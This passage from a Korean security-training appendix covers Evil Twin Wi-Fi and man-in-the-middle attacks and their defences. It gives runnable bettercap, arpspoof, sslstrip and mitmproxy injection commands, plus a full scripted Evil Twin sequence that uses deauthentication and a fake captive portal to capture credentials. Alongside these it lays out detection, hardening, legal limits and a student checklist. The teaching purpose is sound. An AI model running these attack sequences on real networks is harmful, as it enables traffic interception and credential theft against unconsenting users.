curl -s http://10.0.0.1:8080/ | head -10
curl -X POST http://10.0.0.1:8080/login \
   -d "username=alice@corp&password=Welcome2025"
tail -3 /tmp/portal/captured.log
# 2026-05-03 19:24:33 CAPTURED ip=10.0.0.10 user='alice@corp' pw='Welcome2025'
```

#### 도구 5: nodogsplash — 본격 captive portal (운영 등가)

학습용 Flask 대신 *실 captive portal 표준* 동작 (Apple captive.apple.com /
MS msftconnecttest.com / 안드로이드 generate_204 모두 응답) 을 구현하는
nodogsplash. 실제 회의실 / 카페 captive 와 같은 사용자 흐름.

```bash
sudo apt-get install -y nodogsplash

# /etc/nodogsplash/nodogsplash.conf
sudo tee /etc/nodogsplash/nodogsplash.conf << 'EOF'
GatewayInterface wlan0
GatewayAddress 10.0.0.1
GatewayPort 2050
MaxClients 250

# 인증 후 redirect
RedirectURL http://10.20.30.80:3000

# Walled garden (인증 없이 접근 허용 — Apple/MS captive 검사)
EmptyRuleSetPolicy preauthenticated-users allow
FirewallRuleSet preauthenticated-users {
    FirewallRule allow tcp port 53
    FirewallRule allow udp port 53
    FirewallRule allow tcp port 67
    FirewallRule allow udp port 67
}

# 인증 페이지 (자기 host 의 splash.html)
SplashPage splash.html
EOF

sudo systemctl restart nodogsplash
sudo systemctl status nodogsplash --no-pager
```

#### 도구 6: bettercap — ARP MITM + HTTP proxy 통합 (s9)

본문 2.2 의 *ARP MITM 개념* 의 실 명령. bettercap caplet 한 줄로 ARP spoof
+ sniff + HTTP/S proxy + sslstrip 모두 활성.

```bash
# 1. 인터랙티브 모드
sudo bettercap -iface eth0
# bettercap shell:
> set arp.spoof.targets 10.20.30.80                # victim
> set arp.spoof.fullduplex true                    # gateway+target 양방향
> arp.spoof on
> set net.sniff.output /tmp/sniff-mitm.pcap
> net.sniff on
> set http.proxy.sslstrip true
> http.proxy on
> https.proxy on

# 캡처되는 트래픽 (실시간):
# http  10.20.30.80:54321 > example.com  GET /admin
# http  Cookie: PHPSESSID=abc123
# http  Authorization: Basic YWxpY2U6cGFzcw==      ← 평문 base64

# 2. caplet (한 줄 자동화)
cat << 'EOF' > /tmp/mitm.cap
set arp.spoof.targets 10.20.30.80
set arp.spoof.fullduplex true
arp.spoof on
net.sniff on
set net.sniff.output /tmp/mitm.pcap
set http.proxy.sslstrip true
http.proxy on
https.proxy on
EOF

sudo bettercap -iface eth0 -caplet /tmp/mitm.cap

# 3. 종료
> arp.spoof off
> http.proxy off
> https.proxy off
> q
```

**arpspoof / ettercap 대체** (전통 도구):

```bash
# arpspoof — dsniff 의 단순 ARP poison
sudo sysctl -w net.ipv4.ip_forward=1
sudo arpspoof -i eth0 -t 10.20.30.80 10.20.30.1 &       # victim → gateway
sudo arpspoof -i eth0 -t 10.20.30.1 10.20.30.80 &       # gateway → victim

# ettercap — TUI + filter
sudo ettercap -T -M arp:remote /10.20.30.1// /10.20.30.80//

# tcpdump 로 캡처
sudo tcpdump -i eth0 -w /tmp/mitm.pcap host 10.20.30.80
```

**탐지 (방어자)** — arpwatch *flip-flop* 알림 (gateway IP 의 MAC 이 attacker
MAC 으로 변경). 즉시 차단:

```bash
sudo arpwatch -i eth0 -d
# Subject: flip flop (10.20.30.1)
#   ethernet address: 00:c0:ca:11:22:33      ← attacker MAC
#   old ethernet address: 00:0c:29:11:22:33  ← 정상 gateway
```

#### 도구 7: mitmproxy — HTTP / HTTPS 변조 + 인증서 (s11)

본문 2.4 의 *HTTPS: 암호화 → MITM으로도 내용 불가 (인증서 오류)* 의 정확한
원리를 직접 확인. mitmproxy CA 를 victim 의 trust store 에 설치하면 — 그때
부터 HTTPS 도 평문화.

```bash
# 1. mitmproxy 시작 (TUI)
mitmproxy -p 8080
# (또는 헤드리스 mitmdump)
mitmdump -p 8080 -w /tmp/mitm-http.dump

# 2. mitmproxy CA 위치
ls -la ~/.mitmproxy/
# mitmproxy-ca.pem  mitmproxy-ca-cert.pem  mitmproxy-ca-cert.cer  ...

# 3. victim 의 신뢰 store 에 설치 (lab 동의 환경만)
# Linux:
sudo cp ~/.mitmproxy/mitmproxy-ca-cert.pem \
   /usr/local/share/ca-certificates/mitmproxy.crt
sudo update-ca-certificates

# Android (USB debug):
adb push ~/.mitmproxy/mitmproxy-ca-cert.cer /sdcard/
# 설정 → 보안 → 인증서 설치

# iOS (lab 기기):
# Safari 로 http://mitm.it 접속 → 프로파일 다운로드 → 설정 → 신뢰

# 4. victim 트래픽 mitmproxy 경유 (proxy 환경변수)
export http_proxy=http://10.0.0.1:8080
export https_proxy=http://10.0.0.1:8080
curl -v https://example.com/api/login -d 'user=alice&pass=secret'
# (mitmproxy 화면에 상세 트래픽 + 변조 가능)

# 5. 자동 변조 (스크립트)
cat << 'EOF' > /tmp/inject.py
"""mitmproxy addon — 모든 응답에 alert 삽입"""
def response(flow):
    if "text/html" in flow.response.headers.get("content-type", ""):
        flow.response.content = flow.response.content.replace(
            b"</body>",
            b"<script>alert('MITM injected');</script></body>"
        )
EOF
mitmdump -s /tmp/inject.py -p 8080
```

#### 도구 8: sslstrip / sslstrip2 — HSTS 미적용 사이트 다운그레이드 (s13)

본문 1.5 의 *HTTPS → HTTP 다운그레이드* 의 실 명령. HSTS 가 활성된 사이트
에는 효과 없음 — *HSTS preload list* 참조.

```bash
# 1. iptables — 80 포트 트래픽을 sslstrip 으로
sudo sysctl -w net.ipv4.ip_forward=1
sudo iptables -t nat -A PREROUTING -p tcp --destination-port 80 \
   -j REDIRECT --to-port 8080

# 2. arpspoof
sudo arpspoof -i eth0 -t 10.20.30.80 10.20.30.1 &
sudo arpspoof -i eth0 -t 10.20.30.1 10.20.30.80 &

# 3. sslstrip (port 8080)
sslstrip -l 8080 -w /tmp/sslstrip.log

# 4. victim 이 http://example.com 접속 시:
#    - sslstrip 가 example.com 으로 HTTPS 연결
#    - victim 에게는 HTTP 응답
#    - victim 이 입력한 password 평문 캡처

tail -f /tmp/sslstrip.log
# 2026-05-03 19:30:11 SECURE POST Data (example.com): username=alice&password=Welcome2025

# 5. sslstrip2 — HSTS 우회 시도 (RFC 7469 기반 일부)
git clone https://github.com/LeonardoNve/sslstrip2 /tmp/sslstrip2
cd /tmp/sslstrip2 && python sslstrip.py -l 8080 \
   --listen-address=10.0.0.1
```

**HSTS 방어 검증**:

```bash
# 사이트가 HSTS 적용 — sslstrip 무력화
curl -I -L https://www.naver.com 2>&1 | grep -i strict
# Strict-Transport-Security: max-age=31536000; includeSubDomains; preload

# 사이트가 HSTS 미적용 — sslstrip 가능
curl -I -L http://example.com 2>&1 | grep -i strict
# (없음)

# HSTS preload list 확인
curl -s https://hstspreload.org/api/v2/status?domain=example.com | jq .

# testssl.sh — 종합 SSL/TLS 점검
testssl.sh https://example.com 2>&1 | grep -iE "hsts|hpkp|tls"
```

#### 도구 9: arpwatch + DAI — ARP 보호 (방어, s15)

본문 2.2 마지막 *Detection: arpwatch, Dynamic ARP Inspection (DAI)* 의 실
구현. arpwatch 는 호스트 측, DAI 는 스위치 측.

```bash
# 1. arpwatch — 모든 ARP 변경 알림
sudo apt-get install -y arpwatch
sudo systemctl enable --now arpwatch

# 인터페이스 별 (다중 인터페이스 시)
sudo arpwatch -i eth0 -f /var/lib/arpwatch/eth0.dat -m soc@example.com

# 메일 알림 (root@localhost):
#  Subject: flip flop (10.20.30.1)
#    hostname: gateway
#    ip address: 10.20.30.1
#    ethernet address: 00:c0:ca:11:22:33
#    old ethernet address: 00:0c:29:11:22:33

# 2. Cisco DAI 등가 — Linux 브리지 측 ARP guard
# OpenWrt + batman-adv: Dynamic ARP Inspection 활성
uci set network.@interface[0].arp_accept='1'
uci commit network

# 3. 사전 등록 — DHCP snooping table 등가 (수동 작성 lab)
sudo tee /etc/arpalert/maclist.allow << 'EOF'
00:0c:29:11:22:33 # gateway 10.20.30.1
00:0c:29:44:55:66 # workstation-1 10.20.30.80
EOF

# 4. SIEM 통합 — arpwatch 메일 → Wazuh agent → SIEM 룰
# Wazuh 룰 예 (rules/local_rules.xml):
# <rule id="100503" level="10">
#   <if_sid>1002</if_sid>
#   <match>flip flop</match>
#   <description>arpwatch: ARP poisoning suspected</description>
# </rule>
```

#### 도구 10: HSTS preload + Cert Pinning — Evil Twin / SSL Strip 차단

본문 2.4 마지막 체크리스트의 *HSTS / HSTS Preload List / Certificate Pinning*
의 실 적용 방법.

```bash
# 1. nginx 에 HSTS 헤더 (서버측 — 자기 사이트 보호)
sudo tee -a /etc/nginx/sites-available/default << 'EOF'
add_header Strict-Transport-Security "max-age=63072000; includeSubDomains; preload" always;
add_header X-Frame-Options DENY always;
add_header X-Content-Type-Options nosniff always;
add_header Content-Security-Policy "default-src 'self'" always;
add_header Referrer-Policy strict-origin-when-cross-origin always;
EOF
sudo nginx -t && sudo systemctl reload nginx

# 2. HSTS Preload 등록
# https://hstspreload.org/ 접속 → 자기 도메인 입력 → 자동 검사 →
# 통과 시 Chrome / Firefox / Edge / Safari 모두 hard-coded HSTS 적용
# (브라우저가 sslstrip 시도 즉시 거부)

# 3. 클라이언트 측 — 모바일 앱 cert pinning (Android, OkHttp)
# build.gradle 에 OkHttp + CertificatePinner
# val pinner = CertificatePinner.Builder()
#   .add("api.example.com", "sha256/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA=")
#   .build()
# val client = OkHttpClient.Builder().certificatePinner(pinner).build()

# 4. cert pin 검사 (외부)
echo | openssl s_client -servername api.example.com \
   -connect api.example.com:443 2>/dev/null \
   | openssl x509 -pubkey -noout \
   | openssl pkey -pubin -outform der \
   | openssl dgst -sha256 -binary \
   | openssl enc -base64
# 결과: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA=

# 5. testssl.sh 로 종합 확인
testssl.sh --headers --hsts --hpkp https://api.example.com
```

### 공격자 흐름 (정찰 → Evil Twin → 캡처) 실 명령 시퀀스

```bash
#!/bin/bash
# attack-evil-twin-flow.sh — Evil Twin + Captive 5분 시퀀스 (lab 전용)
set -e
LOG=/tmp/eviltwin-$(date +%Y%m%d-%H%M%S).log

# 0. 모니터 모드
sudo airmon-ng check kill
sudo airmon-ng start wlan0

# 1. 정찰 — 타겟 SSID / channel / clients 식별
echo "===== [1] Recon =====" | tee -a $LOG
sudo timeout 30 airodump-ng --band g -w /tmp/scan wlan0mon

TARGET_SSID=CorpWiFi
TARGET_CHAN=1
TARGET_BSSID=AA:BB:CC:11:22:33
echo "Target: $TARGET_SSID ($TARGET_BSSID) ch$TARGET_CHAN" | tee -a $LOG

# 2. wlan0 (별도 카드) 에 Evil Twin AP 시작
echo "===== [2] Evil Twin LIVE =====" | tee -a $LOG
sudo airmon-ng stop wlan0mon
sudo ip addr add 10.0.0.1/24 dev wlan0
sudo ip link set wlan0 up

cat << EOF > /tmp/hostapd.conf
interface=wlan0
ssid=$TARGET_SSID
hw_mode=g
channel=$TARGET_CHAN
auth_algs=1
EOF

sudo hostapd /tmp/hostapd.conf &
HOSTAPD_PID=$!

# 3. DHCP + DNS 위장
echo "===== [3] DHCP+DNS =====" | tee -a $LOG
cat << EOF > /tmp/dnsmasq.conf
interface=wlan0
no-resolv
dhcp-range=10.0.0.10,10.0.0.100,12h
dhcp-option=3,10.0.0.1
dhcp-option=6,10.0.0.1
address=/#/10.0.0.1
EOF

sudo dnsmasq -C /tmp/dnsmasq.conf &
DNSMASQ_PID=$!

# 4. iptables — 80/443 → captive portal
sudo sysctl -w net.ipv4.ip_forward=1
sudo iptables -t nat -F
sudo iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 80 \
   -j REDIRECT --to-port 8080
sudo iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 443 \
   -j REDIRECT --to-port 8080

# 5. captive portal 시작 (Flask)
echo "===== [5] Captive Portal =====" | tee -a $LOG
mkdir -p /tmp/portal/templates
# (templates/login.html 은 이미 위에서 생성)
cd /tmp/portal && python3 app.py &
PORTAL_PID=$!

# 6. deauth — 정상 AP 의 client 떨궈서 우리 SSID 로 재접속 유도
echo "===== [6] Deauth =====" | tee -a $LOG
# (별도 어댑터 wlan1 가 monitor 모드)
sudo aireplay-ng -0 5 -a $TARGET_BSSID wlan1mon | tee -a $LOG

# 7. 5분 대기 — 캡처된 자격증명 확인
sleep 300
echo "===== [7] Captured creds =====" | tee -a $LOG
cat /tmp/portal/captured.log | tee -a $LOG

# 8. 정리
sudo kill $PORTAL_PID $DNSMASQ_PID $HOSTAPD_PID
sudo iptables -t nat -F
sudo ip link set wlan0 down
echo "===== [DONE] $(date) =====" | tee -a $LOG
```

### 방어자 흐름 (탐지 → 격리 → 점검 → 보고) 실 명령 시퀀스

```bash
#!/bin/bash
# defend-evil-twin-flow.sh
set -e
LOG=/tmp/eviltwin-defend-$(date +%Y%m%d-%H%M%S).log

# 1. WIDS 알람 — kismet APSPOOF
echo "===== [1] WIDS =====" | tee -a $LOG
sudo grep -E "APSPOOF|KARMA|DEAUTH" /var/log/kismet/Kismet-*.alert \
   | tail -10 | tee -a $LOG

# 2. BSSID 화이트리스트 비교
echo "===== [2] BSSID compare =====" | tee -a $LOG
sudo airodump-ng --band g -w /tmp/defend wlan0mon &
sleep 30
sudo killall airodump-ng

awk -F, 'NR>1 && $1!="" {print $1, $14}' /tmp/defend-01.csv \
   | grep -i "$TARGET_SSID" \
   | tee -a $LOG
# 정상 BSSID 가 1개여야 함. 2개 이상 = Evil Twin

# 3. arpwatch — flip-flop 감지
echo "===== [3] arpwatch =====" | tee -a $LOG
sudo arpwatch -i eth0 -d 2>&1 | grep -E "flip|new" | head -5 | tee -a $LOG

# 4. 격리 — 의심 BSSID 의 clients 의 회사 LAN 접근 차단
SUSPECT_AP=DD:EE:FF:11:22:33
echo "===== [4] Block clients =====" | tee -a $LOG
# 실제 운영: 스위치 ACL (회사 네트워크의 정상 client 만 통과)

# 5. 위치 추적 — kismet GPS / RSSI 기반
echo "===== [5] Locate =====" | tee -a $LOG
# kismet GPS module
# 또는 PWR 변화 측정 (3개 위치 측정 → 삼각측정)

# 6. 회수 + 보고
echo "===== [6] Report =====" | tee -a $LOG
cat << REP | tee -a $LOG
사건: Evil Twin AP 탐지 ($TARGET_SSID 모방)
탐지 시각: $(date)
탐지 경로: kismet APSPOOF + arpwatch flip-flop
영향: Captive Portal 1건 자격증명 입력 의심 (5분간 활성)
조치: PMF + 802.1X EAP-TLS 강제 마이그레이션 + 회사 BSSID 화이트리스트 + DAI
교훈: 사용자 교육 필요 (HTTPS 자물쇠 + 인증서 경고 무시 금지)
REP
```

### 도구 비교표 (역할별 / 윤리 / 탐지 난이도)

| 도구 | 역할 | 학습 시간 | 탐지 난이도 (피탐) | 윤리 | lab 적합성 |
|------|------|-----------|---------------------|------|-----------|
| hostapd | Evil Twin (수동) | 30분 | 중 (SSID 중복) | 동의 필수 | ★★★★ |
| hostapd-mana | Evil Twin + Karma | 1시간 | 중-상 (KARMA alert) | 동의 필수 | ★★★ |
| hostapd-wpe | Enterprise EAP 캡처 | 2시간 | 상 (EAP fail spike) | 동의 필수 | ★★ |
| wifiphisher | 자동 captive | 1시간 | 중 (workflow 흔적) | 동의 필수 | ★★★ |
| Fluxion | 자동 captive | 1시간 | 중 | 동의 필수 | ★★ |
| dnsmasq | DHCP/DNS 위장 | 30분 | 매우 낮음 | OK (lab) | ★★★★★ |
| nodogsplash | 운영 captive | 1시간 | 매우 낮음 | OK | ★★★★ |
| Flask + iptables | DIY captive | 30분 | 매우 낮음 | OK | ★★★★★ |
| evilginx2 | reverse-proxy phish | 4시간 | 중 (TLS cert anomaly) | 동의 + 검토 | ★★ |
| Modlishka | reverse-proxy phish | 4시간 | 중 | 동의 + 검토 | ★★ |
| bettercap (full) | ARP+HTTP+sslstrip | 1시간 | 중 (arpwatch) | 동의 필수 | ★★★★ |
| arpspoof (dsniff) | ARP MITM (legacy) | 30분 | 중 (arpwatch) | 동의 필수 | ★★★ |
| ettercap | ARP/DHCP MITM | 1시간 | 중 | 동의 필수 | ★★★ |
| mitmproxy | HTTP/S MITM | 1시간 | 매우 낮음 (proxy) | OK (lab) | ★★★★★ |
| sslstrip / sslstrip2 | HTTPS 다운 | 30분 | 낮음 (HSTS 부재 시) | 동의 필수 | ★★★ |
| dnschef | DNS rogue | 30분 | 중 | 동의 필수 | ★★★ |
| arpwatch | 방어 (탐지) | 15분 | — | OK | ★★★★★ |
| kismet (방어) | WIDS | 1시간 | — | OK | ★★★★★ |
| nzyme | WIDS | 1시간 | — | OK | ★★★ |
| nginx + HSTS | 방어 (서버) | 30분 | — | OK | ★★★★★ |
| OkHttp Pinning | 방어 (앱) | 2시간 | — | OK | ★★★★ |
| testssl.sh | 점검 (audit) | 30분 | — | OK | ★★★★★ |
| dnscrypt-proxy | DoH (방어) | 30분 | — | OK | ★★★★ |

### Evil Twin / MITM 효과 vs 방어 매핑

| 공격 | 1차 효과 | 핵심 방어 | 적용 비용 |
|------|----------|----------|-----------|
| Evil Twin Open | captive 자격증명 캡처 | 사용자 교육 + Open AP 금지 | 낮음 |
| Evil Twin WPA2-PSK 모방 | handshake 캡처 → 오프라인 crack | PSK → Enterprise EAP-TLS | 중 |
| Evil Twin Enterprise (WPE) | EAP-PEAP/MSCHAPv2 캡처 | EAP-TLS 만 사용 (MSCHAPv2 금지) | 중 |
| KARMA / MANA | 자동 probe 응답 → 자동 접속 | client PNL 관리 + Auto-join 비활성 | 낮음 |
| ARP MITM | 트래픽 가로채기 | DAI + arpwatch + 802.1X | 중 |
| SSL Strip | HTTPS 다운 → 평문 cred | HSTS + Preload | 낮음 |
| reverse-proxy phish (evilginx) | 2FA 우회 + cookie steal | FIDO2 (passkey) + cert pin | 높음 |
| Captive portal phish | 사용자 자격증명 입력 | 정확한 SSID + 사용자 교육 | 낮음 |

### 윤리 / 법적 경계

| 행위 | 한국 정통망법 / 전파법 | 미국 CFAA / FCC | 학습 환경 정당화 조건 |
|------|------------------------|------------------|----------------------|
| lab Evil Twin 시뮬 (RF 격리) | 합법 | 합법 | RF 차폐 + 본인 단말 |
| 회사 LAN 에 Evil Twin | 정통망법 §48 + 전파법 §29 | CFAA + FCC §333 | 서면 동의 + 책임자 입회 |
| captive portal 자격증명 캡처 | 정통망법 §49 (비밀 침해) | Wiretap Act | 모의 사용자 명시 동의 |
| 외부 카페 / 학교 Evil Twin | 정통망법 §48 (불법) | CFAA + FCC | **절대 금지** |
| ARP poisoning lab | 합법 | 합법 | 자기 lab |
| 회사 LAN ARP poisoning | 정통망법 §48 | CFAA | 동의 + 채증 책임 |
| sslstrip lab 자기 트래픽 | 합법 | 합법 | 자기 traffic |
| sslstrip 외부 cred 캡처 | 정통망법 §49 + 형법 §314 | Wiretap Act | **절대 금지** |
| evilginx2 lab 모의 phishing | 합법 (Red Team 허가) | 합법 (계약 기반) | RoE + 책임자 |
| evilginx2 외부 phishing | 정통망법 §48-49 + 형법 사기 | CFAA + Wire Fraud | **절대 금지** |
| HSTS / Cert Pinning 자기 사이트 | 합법 | 합법 | 자기 도메인 |

### 학생 자가 점검 체크리스트

- [ ] hostapd 한 줄 conf 로 Evil Twin AP (Open / WPA2-PSK / Enterprise) 3종
      구성 가능
- [ ] hostapd-mana 의 *Loud mode* 와 KARMA 차이를 *probe response* 동작
      차원에서 설명 가능
- [ ] dnsmasq `address=/#/10.0.0.1` 한 줄이 *왜 모든 도메인을 자기 IP 로*
      응답하게 만드는지 설명 가능
- [ ] `iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port
      8080` 의 동작 (NAT table PREROUTING 단계, 패킷 destination port 변경)
      를 한 paragraph 로 설명 가능
- [ ] mitmproxy CA 를 victim 의 신뢰 store 에 설치 *전·후* 의 동일 HTTPS
      요청에 대한 행동 차이 (인증서 경고 → 평문 visibility) 직접 시연 가능
- [ ] sslstrip 가 *어떤 사이트* 에는 효과 없는지 (HSTS / HSTS preload)
      설명 가능 + curl 로 확인 가능 (`curl -I | grep -i strict`)
- [ ] evilginx2 와 단순 captive portal 의 차이 (reverse-proxy 기반 — 실 사이트
      cookie 까지 cap, 2FA 우회) 설명 가능
- [ ] arpwatch 의 *flip flop* / *new station* / *changed ethernet* 3 알림이
      각각 어떤 ARP 변동에 대응하는지 설명 가능
- [ ] HSTS preload list 에 자기 도메인 등록 절차 (hstspreload.org) +
      max-age + includeSubDomains + preload 3 조건 충족 확인 가능
- [ ] 802.1X EAP-TLS 가 *왜 Evil Twin (모든 변종) 을 무력화* 하는지 설명
      가능 (인증서 기반 → 사전 공격 / probe 응답 모두 무용)
- [ ] 본 부록의 모든 공격 명령에 대해 "운영 LAN 에서 실행 시 위반 법조항"
      답변 가능 (정통망법 §48-49 / 전파법 §29 / FCC §333)

### 운영 환경 적용 시 주의

1. **RF 격리 의무** — Evil Twin 의 single beacon 도 외부 ISM 누설 시 전파법
   위반 가능. lab 은 RF 차폐실 또는 *지하실 + 알루미늄 박스* 시나리오.
2. **DNS wildcard 격리** — dnsmasq `address=/#/10.0.0.1` 는 *완전 폐쇄* 환경
   에서만 사용. 일반 사용자 device 가 우연히 lab AP 접속 시 정상 인터넷
   상실. lab DHCP scope 는 격리 SSID 한정.
3. **captured.log 보호** — Flask captive portal 의 captured.log 는 모의
   user credential 일 수 있음. lab 종료 시 즉시 `shred -u`.
4. **mitmproxy CA** — victim 의 trust store 에 설치된 CA 는 lab 종료 시
   *반드시 제거*. 외부 device 에 잔존 시 향후 모든 HTTPS MITM 위험.
5. **evilginx2 / Modlishka** — 모의 phishing 캠페인 운영 시 *서면 RoE +
   사용자 사후 교육* 필수. 캡처된 cookie 는 격리 보관.
6. **HSTS preload 신청** — 한 번 등록되면 *철회* 가 어렵다 (브라우저 hard
   coded). 자기 도메인 모든 sub-domain 이 HTTPS 가능한지 사전 점검.
7. **사용자 교육** — 기술적 방어 외에 *captive portal 출현 시 의심* / *인증서
   경고 무시 금지* / *Open WiFi 접속 금지* 정책. 분기별 phishing 시뮬레이션.

> 본 부록은 *학습 시연용 OSS 시퀀스* 이다. 실제 무선 / MITM 침투 테스트는
> RF 격리 + 위촉 계약 + 전파법 사전 검토 + 사용자 사후 교육 4 요건 충족
> 시에만 수행한다. Evil Twin 한 packet 도 외부 누설 시 형사 처벌 대상.

---
